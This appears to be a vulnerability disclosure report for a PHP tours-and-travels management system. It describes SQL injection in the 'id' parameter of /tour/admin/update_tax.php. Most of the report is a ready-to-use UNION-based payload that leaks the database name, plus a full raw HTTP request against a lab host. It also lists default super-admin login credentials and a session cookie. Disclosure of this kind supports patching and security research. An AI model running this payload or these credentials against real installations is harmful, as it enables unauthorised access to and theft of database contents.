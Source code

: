# Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Autumn

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_tax.php

Vulnerability location: /tour/admin/update_tax.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_tax.php?id=1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /tour/admin/update_tax.php?id=1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183013416-847de94f-969f-4e0e-9c51-e5195cef4b05.png)
